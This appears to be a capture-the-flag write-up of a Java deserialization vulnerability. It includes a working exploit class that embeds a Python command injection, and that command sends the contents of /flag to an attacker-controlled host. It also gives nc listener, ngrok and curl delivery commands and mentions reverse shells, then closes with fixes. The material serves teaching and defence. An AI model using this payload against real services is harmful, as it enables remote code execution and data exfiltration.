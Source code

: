 # Deserialization 101

## Vulnerability
The service deserialises User Input

## Exploitation
Reusing the code template available in the slides, we can write the following exploit, replacing <HOST:PORT> by a server listening at the given port (e.g. open a https tunnel `ngrok http <LOCAL_PORT>` and then listen `nc -lvnp <LOCAL_PORT>`).  
The Python payload could be replaced by a Reverse Shell payload to get a shell on the server. Some examples can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python).

```java
package deserialization101;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;
import java.util.concurrent.ConcurrentSkipListSet;

public class Exploit {

    public static void main(String[] args) throws Exception {
        System.out.println(createMaliciousObject());
    }

    public static String createMaliciousObject() throws Exception {
        CustomComparator customComparator = new CustomComparator(");import http.client;conn = http.client.HTTPSConnection(\"<HOST:PORT>\");conn.request(\"POST\",\"/\", '{}'.format(open('/flag').read().strip()), {'Content-Type': 'application/json'});#");
        var giveMeAnRCE = new ConcurrentSkipListSet<>(customComparator);
        giveMeAnRCE.add(1);
        giveMeAnRCE.add(2);

        var baos = new ByteArrayOutputStream();
        var oos = new ObjectOutputStream(baos);

        oos.writeObject(giveMeAnRCE);
        var bytes = baos.toByteArray();

        oos.close();
        baos.close();

        return Base64.getEncoder().encodeToString(bytes);
    }
}
```

The constructor of `CustomComparator` only allows Strings containing a single character.  
When deserializing, the object was already "constructed", the JVM will use the method `readObject` instead of going through the constructor. So to build our payload, we can update the constructor to allow more than just a single character.

We can then open our listener on our server: `nc -lvnp <PORT>` and request the service with our malicious payload:
```bash
curl --request POST \
  --url http://localhost:80/game1 \
  --header 'Content-Type: text/plain' \
  --data '<Payload>'
```

## Fix
Multiple fix could avoid this problem:
* We should expect an Integer instead of a serialized Integer.
* We could create our own ObjectInputStream to limit the kind of classes that can be deserialized, overriding the method resolveClass.
* We could have overriden the method `readObject` in `CustomComparator` to check the operator has only a single character (same condition as in the constructor).

For more details, you can read this [blog](https://www.redhat.com/en/blog/jdk-approach-address-deserialization-vulnerability) article from Red Hat.
